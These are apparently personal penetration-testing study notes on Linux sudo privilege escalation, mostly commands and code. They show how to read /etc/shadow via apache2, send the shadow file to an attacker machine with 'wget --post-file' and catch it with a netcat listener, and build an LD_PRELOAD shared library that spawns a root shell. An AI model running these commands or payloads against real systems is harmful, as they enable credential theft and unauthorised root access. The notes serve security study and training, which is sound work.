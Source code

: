 
# Escalation Path: Sudo

Allow system administrator to delegate authority to run programs



## Shell Escaping

GTFOBins: https://gtfobins.github.io/
```bash
after sudo -l = to show files we can run with root privileges
go to GTFOBins to search the files we can execute
```

### Intended Functionality

There is no apache2 in gtfobins, but we can use this functionality to show shadow files:
```bash
sudo apache2 -f /etc/shadow
```

wget example: https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/


In target:
```bash
	sudo wget --post-file=/etc/shadow <kali ip:port> = We will send the shadow file to our PC, just listen with netcat to grab the file
```

In kali:
```bash
nc -lvnp <port>
```

### LD_PRELOAD
nano shell.c
```bash

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}

gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/fullpath/shell.so <something we can run as root>

```
